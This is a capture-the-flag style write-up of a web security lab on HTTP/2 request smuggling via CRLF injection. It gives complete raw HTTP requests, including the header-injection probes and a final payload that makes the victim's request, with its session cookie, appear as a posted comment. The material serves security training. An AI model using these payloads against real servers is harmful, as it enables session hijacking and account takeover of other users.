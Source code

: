 # HTTP/2 request smuggling via CRLF injection
# Objective
 This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them. 

# Solution
## Analysis
### Basic request smuggling attact attempts
#### H2.CL attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404 HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Length: 5

x=1
```

|![](Images/image-61.png)|
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |

#### H2.TE attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Foo: bar
```

|![](Images/image-62.png)|
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |


### CRLF injection attempts
#### H2.CL attempt
Website is not vulnerable to `H2.Cl` request smuggling.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Foo: bar\r\nContent-Length: 0

SMUGGLED
```

|![](Images/image-67.png)|
|:--:| 
| *Request is denied due to duplicated CL headers* |

#### H2.TE attempt
Website is vulnerable to `H2.TE` request smuggling.

```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Foo: bar\r\nTransfer-Encoding: chunked

0

SMUGGLED
```

|![](Images/image-66.png)|
|:--:| 
| *HTTP/2 downgrading vulnerability occured* |


## Exploitation
First request poisoned the back-end. Second request that cames from victim is appended to the previous request. Thanks to this a new comment is posted on the website that includes victim's request headers including victim's session cookie.

`Content-Length: 604` header was added automatically.

```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Foo: bar\r\nTransfer-Encoding: chunked
Content-Length: 604

0

POST /post/comment HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Cookie: session=MU0PLtwRpeJ2AV76Am6Lgpbtse6nyFXA; _lab_analytics=SdlnSmkY8YlobmilsWi2h20qQ1XGFysS4P4U9cU78FLEo9XOSIMlknQPAIZWR9xFSvItH6IYHtOoVUd3yVYudvptq9Sbu4xNUBawLoN0V87b7LMbnB6YmE2oo2d7DPmpVKqnEQ6JMvzMxPNLZKRPB4RYMUC6w0O1tsLTtzf7PKTS3mh14ExWmulhSKDVjaYTxpGm5dBrQCMnFpNSf2fDZK8CwzClcpSl7o2tLnSIsfwibXTQ8oBZvWpSyKyqsnsI
Content-Type: application/x-www-form-urlencoded
Content-Length: 928

csrf=A88gwj6Agh55XZYT4M70dqDluIZheemR&postId=8&name=Smuggled&email=Smuggled%40fSmuggled.com&comment=Smuggled
```

|![](Images/image-64.png)|
|:--:| 
| *Request was smuggled successfuly - tested manually by sending 2 requests* |
|![](Images/image-65.png)|
| *Request was smuggled successfuly - special header* |
|![](Images/image-63.png)|
| *Request was smuggled successfuly - session token in comment* |
